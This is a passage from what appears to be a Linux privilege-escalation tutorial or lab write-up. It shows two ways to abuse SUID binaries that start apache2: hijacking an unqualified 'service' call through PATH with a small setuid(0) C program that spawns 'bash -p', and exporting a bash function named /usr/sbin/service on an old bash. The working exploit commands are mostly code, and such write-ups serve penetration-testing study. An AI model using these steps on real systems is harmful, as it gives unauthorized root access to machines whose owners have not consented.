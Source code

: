 Using strace shows:
```bash
[pid  3106] execve("/bin/sh", ["sh", "-c", "service apache2 start"], ["TERM=screen", "SHELL=/bin/bash", "HISTSIZE=1000000", "SSH_CLIENT=192.168.0.16 54706 22", "SSH_TTY=/dev/pts/0", "HISTFILESIZE=1000000", "USER=user", "LS_COLORS=rs=0:di=01;34:ln=01;36"..., "MAIL=/var/mail/user", "PATH=/usr/local/bin:/usr/bin:/bi"..., "PWD=/home/user", "LANG=en_US.UTF-8", "SHLVL=1", "HOME=/home/user", "LOGNAME=user", "SSH_CONNECTION=192.168.0.16 5470"..., "_=/usr/bin/strace", "OLDPWD=/home/user/tools/suid"]) = 0
```
The apache2 program is being executed using /bin/sh which implies that it is inheriting our environment variables. Because the **service** command does not use an absolute path, we can create our own version of service executable and add it to the PATH variable.
First create a program to be ran which escalates privileges.
```C
/*
	Compile:
	gcc -o service service.c
*/

int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
Prepend current path path to PATH variable and execute /usr/local/bin/suid-env
```bash
$ PATH=.:$PATH /usr/local/bin/suid-env
```

### Abusing Shell Features
In some shells (notably bash < 4.2-048) it is possible to define user functions with an absolute path name. These functions can be exported so that subproccesses have access to them, and the functions can take precedence over the actual executable being called.

For example, running **strings** on the /usr/local/bin/suid-env2 shows that apache2 is being started. Looking at strace shows:
```bash
$ strings
[pid  3812] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"], ["TERM=screen", "SHELL=/bin/bash", "HISTSIZE=1000000", "SSH_CLIENT=192.168.0.16 54706 22", "OLDPWD=/home/user", "SSH_TTY=/dev/pts/0", "HISTFILESIZE=1000000", "USER=user", "LS_COLORS=rs=0:di=01;34:ln=01;36"..., "MAIL=/var/mail/user", "PATH=/usr/local/bin:/usr/bin:/bi"..., "PWD=/home/user/tools/suid", "LANG=en_US.UTF-8", "SHLVL=1", "HOME=/home/user", "LOGNAME=user", "SSH_CONNECTION=192.168.0.16 5470"..., "_=/usr/bin/strace"]) = 0
```
This time, service is given an absolute path. Looking at the /bin/sh version
```bash
$ /bin/sh --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```
This version allows us to write user-defined functions:
```bash
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
```
Executing /usr/sbin/service gives privilege escalation.
